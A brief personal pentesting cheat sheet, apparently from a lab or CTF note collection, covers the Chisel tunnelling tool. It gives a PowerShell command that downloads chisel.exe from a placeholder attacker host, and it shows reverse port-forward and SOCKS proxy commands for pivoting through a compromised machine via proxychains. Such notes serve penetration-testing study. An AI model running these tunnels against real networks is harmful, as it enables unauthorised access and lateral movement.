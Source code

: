 # Chisel
https://github.com/jpillora/chisel/releases

![[chisel.png]]


```powershell
Invoke-WebRequest -Uri http://<ip>:8000/chisel.exe -OutFile chisel.exe
```

```bash
# Server
chisel server --reverse --socks5
# Server on Custom Port
chisel server --reverse --port 9001
# Client
chisel client 10.10.16.48:8080 R:8200:localhost:8200

chisel client 10.10.16.48:9001 R:8200:localhost:8200
```
## Proxychains
```bash
chisel server --reverse --socks5 --port 9999

chisel client <ip>:9999 R:socks

proxychains mysql -u username -p password -h 127.0.0.1:1080
```

## Port Forwarding
https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/